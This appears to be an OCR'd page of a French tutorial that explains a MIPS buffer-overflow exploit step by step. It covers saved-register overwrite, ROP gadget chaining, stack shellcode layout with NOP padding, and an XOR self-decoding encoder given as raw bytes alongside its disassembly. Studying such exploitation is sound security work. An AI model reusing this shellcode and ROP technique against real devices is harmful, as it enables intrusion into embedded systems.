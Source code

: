 **Ce qui se passe :**

* Quand le buffer overflow arrive, ces valeurs écrasent les registres sauvegardés
* `$ra` (return address) pointera vers le 1er gadget ROP
* `$s1` et `$s3` contiennent les adresses des fonctions qu'on veut appeler

4\. Construction du Shellcode sur la Pile

```python
shellcode = nop * 6        # Espace pour les gadgets ROP
ra2 = "\x2b\x2a\x0e\xb8"  # 3ème ROP gadget
s1_2 = "\x2b\x27\x88\xc0" # 4ème ROP gadget

shellcode += s0_2 + s1_2 + s2_2 + ra2 + nop * 6
```

**Rôle :** Ces valeurs seront lues depuis la pile par les gadgets ROP pour continuer la chaîne d'exécution.

5\. L'Encodeur - Comment il localise les données

#### Le code de l'encodeur (sc\_encode)

```python
sc_encode=("\x3c\x11\x99\x99\x36\x31\x99\x99\x27\xb2\x03\xe8\x22\x52\xff\x0c...")
```

**Décomposition en assembleur MIPS :**

```assembly
# Charger la clé XOR (99999999 = 0x5F5E0FF en hex)
li $s1, 2576980377     # \x3c\x11\x99\x99\x36\x31\x99\x99

# Calculer l'adresse où sont les données à décoder
la $s2, 1000($sp)      # \x27\xb2\x03\xe8 
addi $s2, $s2, -244    # \x22\x52\xff\x0c

# Charger les données encodées
lw $t2, -500($s2)      # \x8e\x4a\xfe\x0c

# Les décoder (XOR)
xor $v1, $t2, $s1      # \x01\x51\x18\x26

# Les réécrire décodées
sw $v1, -500($s2)      # \xae\x43\xfe\x0c
```

#### Comment il localise précisément les données

**Calcul d'adresse :**

1. `$sp` = pointeur de pile actuel
2. `$sp + 1000 - 244 - 500` = position exacte des données encodées
3. Cette position correspond exactement à `sc_fork_bad` et `sc_bad1/sc_bad2`

**Positions calculées :**

```python
# Position 24 dans le shellcode final
# at position: (15*6 + 6) /4 = 24
sc_bad1=("\x9b\xb9\x11\xbe")  # Encodé

# Position 24 + 2 = 26
sc_bad2=("\x9b\xb9\xb1\xb8")  # Encodé
```
